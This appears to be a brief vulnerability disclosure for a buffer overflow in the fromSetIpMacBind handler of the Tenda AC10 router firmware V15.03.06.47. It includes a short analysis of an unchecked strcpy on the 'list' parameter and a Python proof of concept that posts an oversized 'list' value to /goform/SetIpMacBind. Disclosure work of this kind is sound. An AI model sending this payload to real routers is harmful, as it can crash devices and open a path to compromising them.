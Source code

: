 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](15.png)

get value from list ,and pass to list, if new_static_num between 0-33, call strcpy, cause buff overflow


## POC
```
url = "http://192.168.1.13/goform/SetIpMacBind"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload, 'bindnum': 1})
``` 
